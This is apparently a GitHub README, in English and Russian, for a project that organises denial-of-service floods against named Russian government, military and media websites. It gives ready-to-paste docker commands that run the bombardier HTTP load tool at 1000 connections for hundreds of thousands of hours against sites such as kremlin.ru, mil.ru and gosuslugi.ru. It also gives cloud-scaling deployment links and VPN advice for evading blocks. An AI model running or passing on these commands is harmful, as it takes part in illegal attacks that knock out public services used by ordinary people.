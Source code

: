 # bombardier

Fight against propoganda

## CLOUD way :

### If you have kubertnetes cluster `./run_all_kuber.sh`

### GCP for not technical people (easiest)
https://www.notion.so/baaton/atack-php-d533b09a39a84c6db8007049627d03c6

### GCP for technical people
https://github.com/dotiful/bombardier/tree/main/gcp

### AWS with ec2 autoscaling
https://github.com/dotiful/bombardier/tree/main/aws

### Azure 
https://github.com/dotiful/bombardier/tree/main/azure

### Digital Ocean
[Kubernetes Docs](docs/digital_ocean_kubernetes.md) 

### Free russian VPN for Cloud VMs
[Setup instruction](docs/vpn_for_cloud_vms.md)


# Docker way
For a lot of resources or closed for Ukraine so please use Cloud way if cloud unavailable use VPN, otherwise it is not really work now.  
## Инструкция для пользователей Windows и Mac:

1. Установить Docker: https://www.docker.com/products/docker-desktop (Для Mac Пожалуйста, скачайте версию для правильного чипа)
2. Запустить докер и убедиться, что Docker Started
3. Зайти сюда https://github.com/dotiful/bombardier/blob/main/README.md
4. Для лучшего результата используйте ВПН and :
    - Psiphon: https://psiphon.ca/ (free)
    - Secure VPN: https://www.securevpn.com/ (free)
    - SurfShark: https://surfshark.com/ (paid)
    - Clear VPN: https://clearvpn.com/ (free)
    - Nord VPN: https://nordvpn.com/ (paid)
5. Запустить все цели из `resources.txt` для Windows в проводнике открываем `run_all_windows.bat` для Linux/Mac `./run_all_docker.sh` для целей из `resources.txt` (или `./run_all_docker.sh файл-с-целями`)
6. Для выполнения с конкретными целями - Скопировать скрипт (например `docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru`) и нажать энтер
7. Убедиться, что процесс пошёл
8. Ждать падения рашки

## Instruction for Windows and Mac:

1. Install Docker: https://www.docker.com/products/docker-desktop (For Mac please download the version for the correct chip)
2. Launch Docker and make sure that Docker is running
3. Navigate to https://github.com/dotiful/bombardier/blob/main/README.md
4. For best result use a VPN :
    - Psiphon: https://psiphon.ca/ (free)
    - Secure VPN: https://www.securevpn.com/ (free)
    - SurfShark: https://surfshark.com/ (paid)
    - Clear VPN: https://clearvpn.com/ (free)
    - Nord VPN: https://nordvpn.com/ (paid)
5. Use Windows Command Prompt or the Mac/Linux Terminal and launch as an admin.
6. Attack all targets from resources.txt for Windows - `run_all_windows.bat` for Linux/Mac `./run_all_docker.sh ` for `resources.txt` (or `./run_all_docker.sh your_aim_file`)
7. If you want select aims manually: `docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l https://mid.ru` 
   (Open as many separate CMD consoles as many instances you are going to launch (each line – one script))
8. Make sure that the process started
9. Wait 'till russia fall


### Examples
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l http://kremlin.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://mil.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l http://www.scrf.gov.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://ach.gov.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://epp.genproc.gov.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://www.gosuslugi.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://www.1tv.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://mid.ru`

### there are a lot of scripts for local usage
for unix  https://github.com/dotiful/bombardier/blob/main/run_all_docker.sh
for winodws https://github.com/dotiful/bombardier/blob/main/run_all_windows.bat
